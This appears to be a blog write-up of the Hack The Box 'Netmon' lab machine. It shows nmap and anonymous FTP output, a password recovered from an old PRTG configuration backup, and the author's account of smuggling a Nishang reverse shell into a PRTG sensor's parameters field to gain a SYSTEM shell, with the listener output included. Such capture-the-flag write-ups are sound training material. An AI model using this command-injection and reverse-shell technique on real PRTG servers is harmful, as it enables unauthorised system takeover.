 ```yaml
---
layout: single
title: Netmon - Hack The Box
excerpt: "I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner."
date: 2019-06-29
classes: wide
header:
  teaser: /assets/images/htb-writeup-netmon/netmon_logo.png
categories:
  - hackthebox
  - infosec
tags:  
  - ftp
  - prtg
  - powershell
  - nishang
  - config backups
---
```


![](/assets/images/htb-writeup-netmon/netmon_logo.png)

I think Netmon had the quickest first blood on HTB yet. The user flag could be grabbed by just using anonymous FTP and retrieving it from the user directory. I guessed the PRTG admin password after finding an old backup file and changing the year in the password from 2018 to 2019. Once inside PRTG, I got RCE as SYSTEM by creating a sensor and using Nishang's reverse shell oneliner.

## Summary

- We can log in with anonymous FTP and get the `user.txt` flag directly from the Public user folder
- There's a PRTG configuration backup containing an old password that we can download from FTP
- The PRTG password is the almost the same as the one found in the old backup but it ends with `2019` instead of `2018`
- We can get RCE using Powershell scripts running as sensors in PRTG

## Detailed steps

### Nmap scan

The nmap scan shows that anonymous FTP is allowed and that PRTG is running on the webserver.

```
# nmap -sC -sV -F 10.10.10.152
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-02 22:43 EST
Nmap scan report for netmon.htb (10.10.10.152)
Host is up (0.0090s latency).
Not shown: 95 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Free flag from FTP

In the nmap scan, the script identified that the FTP server allows anonymous access. Because we're not constrained to `ftproot` and we can look around the entire disk of the box, I quickly found a `user.txt` flag in the `c:\users\public` folder.

```
# ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> cd /users/public
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  07:05AM       <DIR>          Documents
07-16-16  08:18AM       <DIR>          Downloads
07-16-16  08:18AM       <DIR>          Music
07-16-16  08:18AM       <DIR>          Pictures
02-02-19  11:35PM                   33 user.txt
07-16-16  08:18AM       <DIR>          Videos
226 Transfer complete.
ftp> type binary
200 Type set to I.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
33 bytes received in 0.01 secs (4.5173 kB/s)
ftp> exit
221 Goodbye.

root@ragingunicorn:~/htb/netmon# cat user.txt
dd58c...
```

I was too slow for first blood, someone else on HTB got user blood in under 2 minutes.

### Getting access to PRTG

The PRTG application is running on port 80:

![](/assets/images/htb-writeup-netmon/prtg_login.png)

I tried the default credentials `prtgadmin` / `prtgadmin` but I got access denied.

Looking in the filesystem, I found that the configuration directory for PRTG is under `c:\programdata\paessler`.

```
ftp> cd /programdata
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19  11:15PM       <DIR>          Licenses
11-20-16  09:36PM       <DIR>          Microsoft
02-02-19  11:18PM       <DIR>          Paessler
```

I found the configuration file and an old configuration from last year.

```
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
[...]
02-25-19  09:54PM              1189697 PRTG Configuration.dat
03-02-19  05:33PM              1198465 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
```

The `PRTG Configuration.dat` config file contains the credentials for user `prtgadmin` but they are encrypted (or hashed?) with what seems to be a proprietary method.

![](/assets/images/htb-writeup-netmon/prtg_new_creds.png)

When I checked `PRTG Configuration.old.bak`, I found the dbpassword: `PrTg@dmin2018`

![](/assets/images/htb-writeup-netmon/prtg_old_creds.png)

I tried this password with user `prtgadmin` on the PRTG login page but it didn't work. Then I realized that this is from a 2018 backup, maybe the admin is lazy and re-used the dbpassword for the admin account and simply used the current date (2019).

My guess was correct and I was able to log in with password `PrTg@dmin2019`

![](/assets/images/htb-writeup-netmon/prtg_mainpage.png)

### RCE through PRTG sensors

PRTG is a monitoring tool that supports a whole suite of sensors, like ping, http, snmp, etc. The server itself has been added in the device list, so it's safe to assume we can add sensors to it:

![](/assets/images/htb-writeup-netmon/prtg_devices.png)

I clicked add sensor on the 10.10.10.152 server then selected `EXE/Script sensor`.

![](/assets/images/htb-writeup-netmon/prtg_exe.png)

We can't add powershell custom scripts because we don't have write access to the application directory, but we can leverage the `Parameters` field to add additional code at the end of an existing Powershell script. I used Nishang to get a reverse shell. I added a semi colon at the beginning of the parameters, then pasted the Nishang code after.

![](/assets/images/htb-writeup-netmon/prtg_rce.png)

After the sensor is created, we hit the play button to execute it.

![](/assets/images/htb-writeup-netmon/prtg_rce2.png)

And we get a shell as `nt authority\system`. Box done!

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.152] 55751

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32> type c:\users\administrator\desktop\root.txt
30189...
```